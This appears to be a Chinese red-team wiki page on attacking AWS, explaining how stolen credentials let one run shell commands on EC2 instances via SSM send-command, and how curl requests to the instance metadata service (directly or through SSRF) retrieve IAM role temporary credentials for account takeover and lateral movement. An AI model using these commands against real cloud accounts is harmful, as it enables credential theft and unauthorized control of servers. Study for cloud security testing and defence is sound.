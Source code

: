 # aws-cli-command
利用 aws cli 执行命令
当目标实例被 AWS Systems Manager 代理后，除了在控制台可以执行命令外，拿到凭证后使用 AWS 命令行也可以在 EC2 上执行命令。

列出目标实例 ID

aws ec2 describe-instances --filters "Name=instance-type,Values=t2.micro" --query "Reservations[].Instances[].InstanceId"
在对应的实例上执行命令，注意将 instance-ID 改成自己实例的 ID

aws ssm send-command \
    --instance-ids "instance-ID" \
    --document-name "AWS-RunShellScript" \
    --parameters commands=ifconfig \
    --output text
获得执行命令的结果，注意将 $sh-command-id 改成自己的 Command ID

aws ssm list-command-invocations \
    --command-id $sh-command-id \
    --details
  
  
元数据
元数据服务是一种提供查询运行中的实例内元数据的服务，当实例向元数据服务发起请求时，该请求不会通过网络传输，如果获得了目标 EC2 权限或者目标 EC2 存在 SSRF 漏洞，就可以获得到实例的元数据。

在云场景下可以通过元数据进行临时凭证和其他信息的收集，在 AWS 下的元数据地址为：http://169.254.169.254/latest/meta-data/，直接 curl 请求该地址即可。

通过元数据，攻击者除了可以获得 EC2 上的一些属性信息之外，有时还可以获得与该实例绑定角色的临时凭证，并通过该临时凭证获得云服务器的控制台权限，进而横向到其他机器。

通过访问元数据的 /iam/security-credentials/<rolename> 路径可以获得目标的临时凭证，进而接管目标服务器控制台账号权限，前提是目标需要配置 IAM 角色才行，不然访问会 404

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ -w '\n'
获取rolename
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<rolename> -w '\n'

通过元数据获得目标的临时凭证后，就可以接管目标账号权限了，这里介绍一些对于 RT 而言价值相对较高的元数据：

mac    实例 MAC 地址
hostname    实例主机名
iam/info    获取角色名称
local-ipv4    实例本地 IP
public-ipv4    实例公网 IP
instance-id    实例 ID
public-hostname    接口的公有 DNS (IPv4)
placement/region    实例的 AWS 区域
public-keys/0/openssh-key    公有密钥
/iam/security-credentials/<rolename>    获取角色的临时凭证
  
  来源：https://wiki.teamssix.com/CloudService/EC2/ec2-exec-command.html
